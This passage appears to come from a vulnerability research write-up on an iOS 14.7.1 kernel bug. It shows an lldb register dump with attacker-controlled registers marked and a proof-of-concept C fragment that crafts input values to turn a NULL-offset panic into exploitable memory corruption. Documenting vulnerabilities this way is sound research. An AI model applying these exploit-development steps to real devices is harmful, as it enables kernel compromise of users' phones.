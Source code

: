 Which gives the following registers (for the same stub as above, virtual iPhone 11 Pro, iOS 14.7.1):

```
(lldb) reg read
General Purpose Registers:
        x0 = 0xffffffe4cbaa4420
        x1 = 0x0000000000000060
        x2 = 0x0000000000000020
        x3 = 0x0000000000000060
        x4 = 0x0000000000000000
        x5 = 0x0000000043434343 // <-- controlled
        x6 = 0xfffffff00991adac
        x7 = 0x0000000000006eb1
        x8 = 0x0000000044444444 // <-- controlled
        x9 = 0x000000000000000b
       x10 = 0xffffffe802224000
       x11 = 0x3ffffff932ea900b
       x12 = 0x0000000000000000
       x13 = 0x00000000000001dc
       x14 = 0x0000000000003320
       x15 = 0x0000000000008001
       x16 = 0xffbd7ff007a542d8
       x17 = 0x182effe4cbaa4420
       x18 = 0x0000000000000000
       x19 = 0xffffffe4cbaa4420
       x20 = 0x0000000042424242 // <-- controlled
       x21 = 0xffffffe4ccf02b00
       x22 = 0x0000000043434343 // <-- controlled
       x23 = 0xffffffe4ccf02af4
       x24 = 0xffffffe4ccf02aec
       x25 = 0x0000000041414141 // <-- controlled
       x26 = 0x0000000000000000
       x27 = 0xffffffe81869b648
       x28 = 0xffffffe199dd5608
       x29 = 0xffffffe81869b4b0
       x30 = 0xfffffff0098ef23c
        sp = 0xffffffe81869b470
        pc = 0xfffffff0098ef290
      cpsr = 0x20400204
```

### Better panic, i.e. - NOT a (NULL+offset) dereference

Now, first thing I would like to do is to get a better panic: i.e a panic that indicates we can corrupt memory in a good way (well, for us). Bad dereference of NULL+offset (with small and limited offset) is just a DOS, which isn't good enough for us (it's not a security issue). So, if we'll just adjust my POC to look as follows:

```c
    memset(input, 0x41, input_size);
    int *pArr = (int*)input;

    pArr[0] = 0x3;          // sub-sub selector
    pArr[1] = 0xffffffff;   // has to be non-zero
    pArr[2] = 0x10008;
    pArr[3] = 0x424242;
    pArr[8] = 0x434343;
    pArr[89] = 0x444444;
```
